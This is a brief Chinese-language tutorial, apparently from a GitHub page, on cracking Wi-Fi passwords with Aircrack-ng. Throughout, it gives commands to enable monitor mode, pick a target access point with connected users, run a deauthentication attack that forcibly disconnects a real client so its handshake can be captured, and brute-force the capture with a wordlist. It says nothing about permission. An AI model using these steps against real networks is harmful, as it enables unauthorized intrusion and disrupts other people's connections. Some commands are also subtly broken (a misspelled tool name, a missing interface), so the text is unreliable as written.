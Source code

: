 # Aircrack-ng

[Aircrack-ng 官网](https://www.aircrack-ng.org/)

## 使网卡进入监听模式

查看当前无线网卡标识

```sh
ip a
```

激活网卡

```sh
airmon-ng start wlan0
```

激活后再次查看网卡标识，会发现名称后面多了个`mon`

## 寻找目标AP

使用`airodump-ng`抓包

```sh
airodump-ng wlan0mon
```

条件
* 有用户已经连上了目标AP。
* 目标的信号足够稳定

需要记住的目标AP相关信息：

* BSSID
* MAC地址
* 频道

## 监听目标频道

假设频道是11，将监听记录写入`ch11`开头的文件中

实际生成的文件名形如 `ch11-01.cap`

```sh
ariodump-ng -c 11 -w ch11 wlan0mon
```

## 等待握手包

当有设备尝试连接目标AP时，airodump-ng就能捕获其握手数据报文。

可以通过 deauth 攻击迫使其他设备重新连接。

首先找一个连上了 airodump-ng 的较活跃的客户端，记住其MAC地址。用`aireplay-ng`命令伪装成该地址向AP发起攻击。

```sh
AP=目标AP的MAC地址
CLIENT=伪装成的客户端MAC地址
aireplay-ng -0 2 -a $AP -c $CLIENT
```

发起攻击后，那个真正的客户端会断网，可能会立即尝试重新连接，于是就可以捕获到握手数据报文了。

## 暴力破解

首先需要拥有字典。

::: info
可以使用Crunch工具生成字典。
:::

```sh
aircrack-ng -w dict.txt ch11-01.cap
```
